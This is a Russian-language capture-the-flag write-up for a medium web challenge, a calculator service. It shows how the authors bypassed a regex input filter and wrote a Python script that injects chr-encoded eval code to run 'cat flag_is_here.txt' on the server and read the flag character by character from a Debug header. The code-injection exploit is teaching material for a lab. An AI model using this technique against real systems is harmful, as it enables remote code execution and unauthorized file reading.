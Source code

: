 # Каликулятар (Web, Medium+) by [rolegiv](https://github.com/rolegiv)  [w33d](https://github.com/w3irdd)

![image](https://github.com/rolegiv/CTF-Writeups/assets/147992165/1c514f27-8d8e-435e-9bcd-7c5f1d765797)

Видим калькулятор, попробуем туда запихнуть символы вместо цифр, получаем следующий ответ:

![image](https://github.com/rolegiv/CTF-Writeups/assets/147992165/fb6ae338-fc75-42d7-86d6-20b0a78f5903)

Видим из ответа регулярку которая блокирует наш запрос:
**Debug: !~(^(-\d|\d).*\d$|^\d$)**

Можем обойти её следующим образом:
**0 + PAYLOAD + 0**

Теперь пришло время написать скрипт и автоматизировать весь процесс получения флага и главное учесть, что вывод возможен только в виде цифр с калькулятора.

```
import requests
from urllib.parse import urlencode


i = 0
while True:
    payload = f"""
ord(__import__("os").popen("cat flag_is_here.txt").read()[{i}])
""".strip()
    payload = '+'.join(f'chr({ord(i)})' for i in payload)
    payload = f'0+eval({payload})+0'

    data = urlencode({'statement': payload})
    # print('http://91.200.84.50/?'+data)
    response = requests.get('http://91.200.84.50/?'+data)
    try:
        value = float(response.headers.get('Debug'))
        print(chr(int(value)), end='')
    except ValueError:
        print(response.headers.get('Debug'))
        break
    i += 1
```

Полезная нагрузка в скрипте будет payload
```
f"""ord(__import__("os").popen("cat flag_is_here.txt").read()[{i}])""".strip().
```
Строка payload формируется таким образом, чтобы извлечь ASCII-код символа на позиции i в файле flag_is_here.txt.
ord в свою очередь возвращает ASCII-код символа.

```
__import__("os").popen("cat flag_is_here.txt").read() 
```
выполняет команду cat flag_is_here.txt для чтения содержимого файла.

Так же мы кодируем полезную нагрузку в URL:
```
payload = '+'.join(f'chr({ord(i)})' for i in payload)
payload = f'0+eval({payload})+0'
```

Каждая буква в строке payload преобразуется в вызов chr с ASCII-кодом этой буквы.
Эти вызовы объединяются через +, формируя выражение, которое будет интерпретировано на сервере.
Например, если payload был "ord('A')", то он станет "chr(111)+chr(114)+chr(100)+chr(40)+chr(39)+chr(65)+chr(39)+chr(41)".

По итогу мы реализуем следующее:
Отправляется GET-запрос на сервер, содержащим кодированный payload.
Сервер выполняет переданный payload, извлекает соответствующий символ и возвращает его ASCII-код в заголовке Debug.
Значение из заголовка Debug конвертируется в символ и выводится.
Если значение нельзя преобразовать в число, цикл прерывается.
Счетчик i увеличивается, чтобы перейти к следующему символу.
После всех этих манипуляций, мы получаем флаг.

# Флаг
**B0NU${ng1nx_1n7_0v3rfl0w}**



